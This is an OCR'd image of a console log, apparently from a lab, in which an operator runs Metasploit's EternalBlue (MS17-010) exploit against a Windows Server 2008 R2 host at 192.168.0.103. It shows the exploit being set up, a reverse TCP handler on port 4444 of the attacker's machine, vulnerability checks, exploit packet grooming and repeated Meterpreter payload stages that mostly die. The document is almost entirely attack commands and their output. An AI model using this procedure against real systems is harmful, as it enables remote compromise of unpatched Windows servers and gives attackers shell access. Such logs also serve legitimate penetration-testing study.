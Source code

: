 ```console
   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.0.103
rhosts => 192.168.0.103
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.0.147:4444 
[*] 192.168.0.103:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.0.103:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 1 closed.
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 2 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 2 closed.
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.0.103:445 - The target is vulnerable.
[*] 192.168.0.103:445 - Connecting to target for exploitation.
[+] 192.168.0.103:445 - Connection established for exploitation.
[+] 192.168.0.103:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.0.103:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.0.103:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.0.103:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.0.103:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.0.103:445 - 0x00000030  6b 20 31                                         k 1             
[+] 192.168.0.103:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.0.103:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.0.103:445 - Sending all but last fragment of exploit packet
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 3 closed.
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 5 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 5 closed.
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103 - Meterpreter session 6 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103 - Meterpreter session 7 closed.  Reason: Died
[*] 192.168.0.103 - Meterpreter session 8 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 9 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 9 closed.  Reason: Died
[*] 192.168.0.103 - Meterpreter session 10 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 8 is not valid and will be closed
[-] Meterpreter session 10 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 7 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 11 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
```